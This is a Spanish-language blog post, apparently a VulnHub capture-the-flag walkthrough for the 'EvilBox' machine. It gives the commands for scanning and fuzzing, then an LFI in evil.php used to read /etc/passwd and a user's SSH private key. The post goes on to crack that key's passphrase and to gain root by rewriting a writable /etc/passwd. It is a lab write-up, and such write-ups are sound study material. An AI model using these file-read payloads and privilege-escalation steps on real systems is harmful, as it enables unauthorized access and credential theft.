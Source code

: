 ```yaml
---
layout: post
title: "EvilBox"
date: 2024-05-15 17:35:23
category: sample
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> EvilBox </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/evilbox-one,736/"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/EvilBox/host.png){:.margin}

**1\.** Detectamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnhub/EvilBox/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos.

`sudo nmap -p- --open -T5 -sCV -sS --min-rate=5000 -Pn -n 192.168.1.21 -oN reportScan`

![img](/notas/public/img/vulnhub/EvilBox/nmap.png){:.margin}

**3\.** Tenemos la pagina Apache por defecto.

`http://192.168.1.21:80/`

![img](/notas/public/img/vulnhub/EvilBox/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.21/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobuster.png){:.margin}

**5\.** Reviso el fichero y tengo un usuario potencial.

`http://192.168.1.21/robots.txt`

![img](/notas/public/img/vulnhub/EvilBox/robots.png){:.margin}

**6\.** Si vamos a secret no hay nada.

`http://192.168.1.21/secret/`

![img](/notas/public/img/vulnhub/EvilBox/secretnull.png){:.margin}

**7\.** Hago fuzzing a este directorio, encontramos un archivo.

`gobuster dir -u http://192.168.1.21/secret/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobustersecret.png){:.margin}

**8\.** No tenemos nada visual.

`http://192.168.1.21/secret/evil.php`

![img](/notas/public/img/vulnhub/EvilBox/evilnull.png){:.margin}

**9\.** Hago fuzzing de posibles parametros de ejecucion remota de comandos(RCE), sin exito.

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=id'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzznull.png){:.margin}

**10\.** Hago fuzzing en busca de parametros para incluir archivos locales(LFI).

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzzcommand.png){:.margin}

**11\.** Vemos que es posible incluir archivos locales.

`http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/etcpasswd.png){:.margin}

**12\.** Presiono ctrl+u y filtro para ver usuarios disponibles.

`view-source:http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/users.png){:.margin}

**13\.** Apuntamos a la clave privada del usuario.

`http://192.168.1.21/secret/evil.php?command=/home/mowree/.ssh/id_rsa`

![img](/notas/public/img/vulnhub/EvilBox/idrsa.png){:.margin}

_\- ctrl + u para copiar de mejor forma._

![img](/notas/public/img/vulnhub/EvilBox/idrsaview.png){:.margin}

**14\.** Guardo la clave en un archivo.

`nano key`

![img](/notas/public/img/vulnhub/EvilBox/key.png){:.margin}

**15\.** Uso [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para obtener un passphrase (secuencia de palabras u otro texto para acceder).

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![img](/notas/public/img/vulnhub/EvilBox/passphrase.png){:.margin}

**16\.** Me conecto por ssh como usuario mowree.

`ssh -i key mowree@192.168.1.21`

![img](/notas/public/img/vulnhub/EvilBox/ssh.png){:.margin}

**17\.** Busco archivos sudoers sin mucho exito.

`sudo -l`

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/vulnhub/EvilBox/sudoers.png){:.margin}

**18\.** Escalando privilegios a superusario.

_1- Veo que tengo permisos para escribir en el passwd_

`ls -l /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/lslpasswd.png){:.margin}

_2- Quito la X (contraseña) para acceder como root sin contraseña_

`cat /etc/passwd`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/catpasswd.png)
![img](/notas/public/img/vulnhub/EvilBox/nanopasswd.png)

_3- Intentamos acceder como root pero nos sigue pidiendo la contraseña_

`su root`

![img](/notas/public/img/vulnhub/EvilBox/surootfail.png){:.margin}

_4- Genero una contraseña personalizada y luego lo agrego al passwd_

`openssl passwd -1 micontra`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/generatepass.png){:.margin}
![img](/notas/public/img/vulnhub/EvilBox/passwdadd.png){:.margin}

_5- Accedemos como root con la nueva contraseña (micontra)

`su root`

![img](/notas/public/img/vulnhub/EvilBox/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>
